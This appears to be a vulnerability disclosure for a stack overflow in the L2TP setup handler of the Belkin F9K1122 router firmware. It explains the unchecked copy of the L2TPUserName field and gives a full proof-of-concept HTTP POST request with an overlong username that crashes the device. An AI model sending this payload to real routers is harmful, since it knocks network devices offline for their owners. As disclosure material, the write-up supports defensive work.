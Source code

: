 # Belkin Vulnerability

Vendor:Belkin

Product:F9K1122

Version:1.00.33

Type:Stack Overflow

Author:Jiaqian Peng

Mail:pengjiaqian@iie.ac.cn

Institution:Institute of Information Engineering,Chinese Academy of Sciences(IIE, CAS)



## Vulnerability description

We found an stack overflow vulnerability in Belkin router with firmware which was released recently, allows remote attackers to crash the server.

**Stack Overflow**

In `webs` binary:

In the router's `formL2TPSetup` function, `L2TPUserName` is directly passed by the attacker, If this part of the data is too long, it will cause the stack overflow, so we can control the `L2TPUserName` to execute arbitrary code.

As you can see here, the input has not been checked. The parameter `L2TPUserName` is directly copy to a local variable placed on the stack, which overrides the return address of the function, causing buffer overflow.

<div  align="center"><img src="./images/1.png" style="zoom:60%;" /></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part.



## PoC

We set `L2TPUserName` as **aaaaa......** , and the router will crash, such as:

```http
POST /goform/formL2TPSetup HTTP/1.1
Host: 192.168.1.5
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 610
Origin: http://192.168.1.5
Connection: close
Referer: http://192.168.1.5/index2.asp
Upgrade-Insecure-Requests: 1

submit-url=&L2TPConnect=&L2TPDisconnect=&L2TPIpMode=&HostName=&Mac=&L2TPIPAddr=&L2TPMaskAddr=&L2TPDefGateway=&L2TPGateway=&L2TPUserName=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&L2TPPassword=&L2TPMTU=&L2TPConnectType=&L2TPIdleTime=&wanMode=&redirect=&
```



## Result

The target router crashes and cannot provide services correctly and persistently.

<div  align="center"><img src="./images/2.png" style="zoom:80%;" /></div>
